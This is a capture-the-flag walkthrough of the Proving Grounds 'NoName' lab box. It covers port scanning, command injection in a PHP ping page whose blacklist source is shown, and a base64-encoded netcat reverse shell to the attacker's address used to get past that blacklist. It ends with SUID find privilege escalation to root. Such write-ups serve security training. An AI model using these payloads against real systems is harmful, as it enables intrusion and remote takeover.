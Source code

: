 # PG Play - NoName

#### Ip: 192.168.183.15
#### Name: NoName
#### Difficulty: Intermediate
#### Community Rating: Intermediate

----------------------------------------------------------------------

### Enumeration

As always, lets kick things off by scanning all TCP ports with Nmap. Here I'll also use the `-sC` and `-sV` flags to use basic Nmap scripts and to enumerate versions too.

```text
┌──(ryan㉿kali)-[~/PG/Play/NoName]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV   192.168.183.15
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-05-30 10:20 CDT
Nmap scan report for 192.168.183.15
Host is up (0.071s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.29 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.92 seconds
```

Looking at the site on port 80 we find a "fake admin area"

![noname_site.png](../assets/noname_assets/noname_site.png)

Trying to insert a command we get the message `Fake ping executed`

Opening WireShark and listening for packets, we can see the site is indeed able to ping our tun0 address:

![noname_ping.png](../assets/noname_assets/noname_ping.png)

Lets capture this request in Burp and see if we can execute any other commands then `ping`

After quite awhile trying different command injection techniques, I was unable to to get any execution.

Taking a step back and trying some directory fuzzing I find both an `/admin` page as well as a `/superadmin.php` page. 

![noname_dirs.png](../assets/noname_assets/noname_dirs.png)

`/admin` seemed to just be an image gallery. The page source however had an interesting comment: `<!--passphrase:harder-->`. We'll hold onto that and see if we can use it anywhere later.

### Exploitation

Navigating to `superadmin.php` we find a similar functionality as the "fake admin area", but this time we can see the ping being executed in our browser output:

![noname_admin_ping.png](../assets/noname_assets/noname_admin_ping.png)

I can now perform command injection in this field, confirming the vulnerability with: `127.0.0.1 | id`

![noname_ex.png](../assets/noname_assets/noname_ex.png)

Still struggling to get a reverse shell, I decide to check out the superadmin.php file and see several different strings being blacklisted:

```php
<?php
   if (isset($_POST['submitt']))
{
   	$word=array(";","&&","/","bin","&"," &&","ls","nc","dir","pwd");
   	$pinged=$_POST['pinger'];
   	$newStr = str_replace($word, "", $pinged);
   	if(strcmp($pinged, $newStr) == 0)
		{
		    $flag=1;
		}
       else
		{
		   $flag=0;
		}
}

if ($flag==1){
$outer=shell_exec("ping -c 3 $pinged");
echo "<pre>$outer</pre>";
}
?>
```

This will make getting a reverse shell a bit more tricky because so many characters are blacklisted. 

Capturing the request in Burp, we can bypass the blacklist at least for now by inserting apostrophes between charcters:

![noname_bypass.png](../assets/noname_assets/noname_bypass.png)

But we'll still need to get a reverse shell here. Lets base64 encode a reverse shell onliner to try to bypass the blacklist:

I'll use:

```text
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.45.208 443 >/tmp/f
```

Base64 encode it, and then use `echo -n (rev_shell) | base64 -d | bash` to pass the command in Burp:

```text
pinger=127.0.0.1+|echo+-n+"cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL2Jhc2ggLWkgMj4mMXxuYyAxOTIuMTY4LjQ1LjIwOCA0NDMgPi90bXAvZg=="+|+base64+-d+|bash&submitt=Submit+Query
```

Running this with a NC listener going gets me a shell back as www-data:

```text
┌──(ryan㉿kali)-[~/PG/Play/NoName]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [192.168.45.208] from (UNKNOWN) [192.168.183.15] 50730
bash: cannot set terminal process group (739): Inappropriate ioctl for device
bash: no job control in this shell
www-data@haclabs:/var/www/html$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@haclabs:/var/www/html$ whoami
whoami
www-data
www-data@haclabs:/var/www/html$ hostname
hostname
haclabs
```

I can now grab the local.txt flag:

![noname_local.png](../assets/noname_assets/noname_local.png)

### Privilege Escalation

Loading linpeas onto the target we see that `find` has the SUID bit set.

![noname_lin.png](../assets/noname_assets/noname_lin.png)

Heading over to GTFObins.com we find the exact command we need to exploit this misconfiguration:

![noname_gtfo.png](../assets/noname_assets/noname_gtfo.png)

`./find . -exec /bin/sh -p \; -quit`

We can execute this command, elevate our shell to root, and grab the final flag:

![noname_root.png](../assets/noname_assets/noname_root.png)

Thanks for following along!

-Ryan

--------------------------------------------------------------------
